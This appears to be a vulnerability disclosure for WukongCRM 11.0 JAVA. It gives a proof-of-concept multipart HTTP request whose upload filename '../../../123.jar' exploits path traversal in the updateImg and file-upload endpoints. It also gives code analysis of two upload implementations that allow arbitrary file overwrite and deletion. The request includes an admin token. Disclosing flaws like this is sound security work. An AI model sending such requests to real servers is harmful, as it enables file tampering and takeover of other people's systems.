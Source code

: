 # **<font style="color:#1a1a1a;">Version:</font>**

[v11.3.3 · WuKongOpenSource/WukongCRM-11.0-JAVA@ec00867 · GitHub](https://github.com/WuKongOpenSource/WukongCRM-11.0-JAVA/commit/ec00867f418d4046ac25c46379af85c034a37e1c)

# Sphere of influence Of API:

<font style="color:#333333;">/</font><font style="color:#9ecbff;background-color:#24292e;">adminFile/upload</font>

<font style="color:#333333;">/</font><font style="color:#9ecbff;background-color:#24292e;">adminUser</font><font style="color:#9ecbff;background-color:#24292e;">/</font><font style="color:#9ecbff;background-color:#24292e;">updateImg</font>

# **<font style="color:#1a1a1a;">Poc</font>**

```plain
POST /api-11/adminUser/updateImg HTTP/1.1
Host: your ip
Cookie: Admin-Token=496eff311bbd4d8aba3716ea5bea5434; AdminToken=496eff311bbd4d8aba3716ea5bea5434
Content-Length: 8393
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: zh-CN
Sec-Ch-Ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Admin-Token: 496eff311bbd4d8aba3716ea5bea5434
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRWQ5uMKBTVp3Warh
Origin: https://www.72crm.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://www.72crm.com/cloud/
Accept-Encoding: gzip, deflate
Priority: u=1, i
Connection: close

------WebKitFormBoundaryRWQ5uMKBTVp3Warh
Content-Disposition: form-data; name="userId"

1860721546925346816
------WebKitFormBoundaryRWQ5uMKBTVp3Warh
Content-Disposition: form-data; name="file"; filename="../../../123.jar"
Content-Type: image/png
```

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732524717823-53f7d9bb-e85e-4e02-9e27-01cf36a80bf4.png)

# **<font style="color:#1a1a1a;">Code Analysis details</font>**

<font style="color:#333333;">use API </font><font style="color:#333333;">/</font><font style="color:#9ecbff;background-color:#24292e;">adminUser</font><font style="color:#9ecbff;background-color:#24292e;">/</font><font style="color:#9ecbff;background-color:#24292e;">updateImg </font><font style="color:#333333;">for verification</font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732524717854-6faa6c57-3912-432f-a6c3-a0aeafbdd3fc.png)

<font style="color:#333333;">Follow in the code of com.kakarote.core.servlet.upload.FileService#uploadFile</font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732524717761-8b6eed9c-d247-46aa-8fa4-5a75318da572.png)

<font style="color:#333333;">just u can see。</font><font style="color:#333333;">There are several implementation classes,</font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732524717809-5b920888-f093-4815-aa59-79aff5f24d74.png)

<font style="color:#333333;">CASE 1: </font><font style="color:#333333;">com.kakarote.core.servlet.upload.LocalFileServiceImpl#uploadFile</font>

<font style="color:#333333;">This does not process the path, it is spliced into the file path, and writes the maliciously uploaded file content to the local service。Lead to the existence of /.. /.. / Malicious upload files that can overwrite files on the server,</font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732524717742-d0c06f68-596a-45e7-9e24-2781e6512a6b.png)

<font style="color:#333333;">CASE2: com.kakarote.core.servlet.upload.TencentFileServiceImpl#uploadFile</font>

<font style="color:#333333;">The implementation class deletes the file through the cloud storage uploaded after the file is temporarily stored, but the path is not verified, resulting in the existence of... /.. /.. / Malicious upload files that can overwrite files on the server and eventually achieve arbitrary file delet</font>

![](https://cdn.nlark.com/yuque/0/2024/png/2897054/1732524718795-538ebaf1-464c-458b-8cc1-91f84ee64fb0.png)

